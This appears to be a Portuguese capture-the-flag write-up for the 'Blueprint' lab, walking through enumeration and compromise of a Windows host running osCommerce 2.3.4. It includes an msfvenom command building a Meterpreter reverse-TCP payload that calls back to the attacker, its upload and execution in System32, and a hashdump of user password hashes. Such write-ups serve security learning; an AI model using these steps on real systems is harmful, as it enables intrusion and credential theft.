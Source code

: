 # _**Blueprint CTF**_
![](blue.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A [ip_address]
> ```
![](scan_nmap.jpg)  

![](host_script.jpg)  

Tentando acessar o que tem na porta 80, não foi encontrado nada  
Vamos tentar realizar enumeração com a ferramenta <mark>Enum4Linux</mark>  
> ```bash
> enum4linux -a [ip_address]
> ```
![](scan_enum.jpg)

Após a enumeração, nada de relevante foi encontrado  
Na pora adiante, 8080, temos uma pasta com algumas informações do próprio site  
Antes de vasculharmos, podemos realizar um scan com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url http://[ip_address]:8080/oscommerce-2.3.4/catalog/ -w ../seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
> ```
![](scan_gobuster.jpg)

Temos diversos diretórios interessantes descobertos  
Vamos primeiro verificar _/admin_  
Uma página de login e também a disposição, versão do software  
Procurando no <mark>Metasploit</mark> alguma versão de exploit, encontramos e vamos uitlizar a seguinte  

![](os_commerce_expl.jpg)

Configurando as opções necessárias, obtemos uma sessão meterpreter e vamos digitar ```shell``` para obter uma  

![](shell.jgp)

Devido a instabilidade desta shell, vamos ter que contornar  
Primeiro, vamos criar um _paylaod_ e realizar _upload_ via nossa sessão
> ```bash
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=[vpn_ip_address] LPORT=[port] -f exe > shell.exe
> ```

Segundo, vamos abrir uma nova sessão no metasploit  
Selecionamos _multi/handler_ e o exploit _windows/meterpreter/reverse_tcp_  
Configuramos as opções necessárias como **LPORT** e **LHOST**  
Executamos  
Na sessão meterpreter anterior, vamos executar o seguinte comando ```upload shell.exe``` no diretório C:\Windows\System32  
No mesmo diretório, executamos o comando ```execute -f shell.exe```  
Assim que executado, conseguimos uma nova sessão meterpreter e desta vez, mais estável  
Agora, digitamos ```hashdump``` para obter a hash do usuário ```Lab```  

![](crackstation.jpg)

Navegando até _C:\Users\Administrator\Desktop\_ e procurando, conseguimos encontrar a flag _root.txt_  
